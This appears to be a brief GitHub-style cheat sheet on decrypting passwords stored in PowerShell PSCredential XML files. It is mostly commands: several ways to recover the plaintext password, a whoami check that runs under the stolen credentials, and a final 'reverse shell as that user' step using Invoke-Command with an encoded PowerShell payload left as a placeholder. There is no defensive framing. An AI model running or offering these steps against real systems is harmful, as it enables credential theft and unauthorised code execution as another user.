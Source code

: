 # Decode the Xml password 
PSCredential XML Decryption is the process of extracting and converting securely stored credentials from serialized PowerShell objects in XML format back to plaintext authentication tokens.
```language
If the file contain the binary password, like this :- 0101919310841001837146106741741069169491893010101100101001010010010110100101016471551646101808181838
```
# You can Decrypt it using the Powershell Manuall and Automate Ways:-

# (1) Manuall Way
Make sure you paste the write Encoded password and username.
```language
$pwd = ConvertTo-SecureString  <encoded password>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "user_name",$pwd    # Grap the username from the xml file.
$cred.GetNetworkCredential().password
```
# (2) Manuall Way
```language
$secureString = ConvertTo-SecureString "<encrypted_binary>"
$credential = New-Object PSCredential("username", $secureString)
$plainTextPassword = $credential.GetNetworkCredential().Password
```
# Automate Way
```language
(Import-Clixml "C:\Path\To\Your\connection.xml").GetNetworkCredential().Password
```
# Verify it
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami } 2>&1
```
# Reverse shell as that user
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { powershell -enc <encoded code here> } 2>&1
```
